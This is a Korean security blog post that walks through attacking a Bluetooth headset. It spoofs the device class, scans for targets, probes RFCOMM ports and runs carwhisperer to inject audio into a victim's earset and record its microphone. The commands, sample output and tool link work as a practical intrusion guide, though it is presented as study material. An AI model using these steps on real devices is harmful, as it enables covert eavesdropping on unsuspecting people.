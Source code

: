 ```yaml
---
date: 2013-03-18 19:09:00 +0900
title: Hacking the Bluetooth headset.
categories: [Research, bluetooth]
tags: [research, bluetooth, hacking]
---
```

---
**:: WARNING ::**

이 포스트는 개인 공부를 위해 게시된 글입니다. 악의적으로 이용시 모든 책임은 당사자에게 있으며 작성자는 책임을 지지 않겠습니다.

---

## 0x01. 블루투스 환경
1) Hacker : Bluetooth-v2.1 (os : kali linux)  
2) Victim - Earset : Bluetooth-v3.0  
3) SmartPhone : Bluetooth-v4.0

## 0x02. Command & Tool
1) hciconfig
    > local블루투스에 관한 정보를 출력 또는 수정  

2) hcitool
   > 특정 장치로 command를 전송하고나 설정을 하는 명령어

3) hcidump
   > 블루투스패킷을 잡는 명령어입니다.(블루투스패킷은 wireshark로 잡히지 않아서 이 명령어를 사용)  

4) l2ping
   > l2cap을 이용하여 상대 장비에게 ping을 보내는 명령어

5) rfcomm
   > rfcomm프로토콜에 관해 설정하는 명령어  

6) sdptool
   > 특정 장비에서 지원하는 서비스 목록을 볼수 있습니다.  

7) carwhisperer
   > 핸드프리 블루투스 카 키트를 지원하는 자동차를 대상으로 하는 공격입니다.
   > ~~이 글에서는 carwhisperer대신 이 코드를 수정한 poc툴을 쓰겠습니다.~~ (별 차이 없으니 carwhisperer을 쓰셔도 모두 막힘이 없습니다.)  
   > - 다운로드 : [Link](http://trifinite.org/Downloads/carwhisperer-0.2.tar.gz)


## 0x03. Basic about Bluetooth
1) 블루투스란?
   - 저전력을 이용한 근거리 무선통신(기본 10m이고 옵션이 가해지면 100m까지 통신)

2) 블루투스 프로토콜 구조
    ![bluetooth-protocol-struct](/posts/bluetooth-structures.jpeg)

    - HCI(Host Controller Inerfae) :: 하드웨어 접근제어  
    - L2CAP :: 상위프로토콜과 하위프로토콜 사이 중재역할을합니다.
    - SDP :: 블루투스가 어떠한 서비스가 가능한지 출력합니다.  
    - RFCOMM :: RS-232(_시리얼통신 인터페이스 표준_) 시리얼포트를 에뮬레이션합니다.


3) Pairing(페어링)
- 두개의 장치가 서로를 인증한 후 Connection하는 과정. 이 과정에서 pin 인증  
- 이 글에서 사용한 블루투스 이어셋은 검색만 허용된다면 PIN인증 없이 연결이 됩니다.

## 0x04. Scenario

1) 해커의 반경안에 블루투스 이어셋을 이용하는 사용자가 있다.

2) 해당 이어셋에 공격을 가하고, 사용자의 이어셋에는 해커가 준비한 음성파일이 흘러나온다.

3) 또 사용자가 이어셋의 마이크로 말하는 내용은 해커 컴퓨터에 저장된다.

## 0x05. Attack

```bash
hciconfig hci0 up    #    블루투스 on
hciconfig hci0 class 0x50040c    #노트북을 스마트폰으로 인식시키기 위한 설정명령어
                                   #class정보는 hciconfig -a를 입력하면 출력된다.
```

여기서 class를 CoD(Class of Device)라고 한다.
- Bluetooth Class of Device/Service (CoD) Generator  
- Link: [CoD Generator](http://bluetooth-pentest.narod.ru/software/bluetooth_class_of_device-service_generator.html)

![bluetooth-hciconfig](/posts/bluetooth-hciconfig.jpeg)
- 주변의 블루투스 장치를 찾습니다. 단, `검색허용`이 된 장치에 한해서 검색이 됩니다.
    ```bash
    hcitool scan  
        Scanning ...  
        9C:3A:AF:A7:40:65    HM1200
    ```

- rfcomm.py 스크립트를 이용하여 'HM1200'장치에 열린 포트를 검색하겠습니다.
   ```bash
    # ./rfcommScan.py 9C:3A:AF:A7:40:65  
    [+] RFCOMM Port 1 open  
    [+] RFCOMM Port 2 open  
    [+] RFCOMM Port 3 open  
    [+] RFCOMM Port 4 open
    ```

- 자, 모든 정보를 획득했으니 마지막 작업을 해보겠습니다.
    ```plain
    carwhisperer <hci#> <message> <recored> <bdaddr> \[channel\]

    message : 전송할 음성파일인데 확장자가 raw여야 합니다.

    record    : 이어셋의 마이크에서 전송되는 데이터입니다. 저장은 raw로 하시고 음성파일 확장자로 변경하시면 끝!

    bdaddr    : 피해자 블루투스의 mac주소가 되겠습니다.

    channel    : Open된 RFCOMM 채널을 입력하면 되고, 입력을 하지 않을경우 1로 입력이 됩니다.
    ```

![bluetooth-poc](/posts/bluetooth-poc.jpeg)

위의 과정을 제대로 수행하셨다면 별다른 착오없이 공격이 성공했을 것입니다.  
아래의 사진은 hcidump로 캡처한 패킷들이고, 공격중에 많은 패킷이 오가는 것을 보실수 있습니다.

![bluetooth-packet-capture](/posts/bluetooth-packet-caputre.jpeg)

## 0x06. End
오랜만에 긴글 쓰려니 힘들긴 한데, 나름 재밌는 주제였습니다. 사실 처음 블루투스에 접근한 계기는 좀더 화려했으나 그 길을 가는 도중에 맨붕이 와서 일단 여기까지만 블로깅했습니다. 혹시 잘못된점이나 잘 안되는점, 또 궁금한점이 있으면 글남겨주세요. 바로바로 확인하겠습니다 :)